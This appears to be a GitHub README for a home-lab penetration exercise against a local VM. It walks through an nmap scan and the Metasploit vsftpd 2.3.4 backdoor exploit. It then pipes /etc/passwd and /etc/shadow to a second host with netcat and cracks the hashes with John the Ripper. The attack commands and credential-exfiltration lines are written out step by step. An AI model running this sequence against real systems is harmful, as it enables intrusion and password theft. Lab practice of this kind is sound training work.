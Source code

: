 
--Step 1: VM Startup & Recon 

---


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

--Step 2:  Exploitation


--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


--Step 3: File Extraction




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



--Step 4: Password Cracking

--john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt shadow
![John](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnrun.png)

--john -show shadow

![johnshow](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnshow.png)

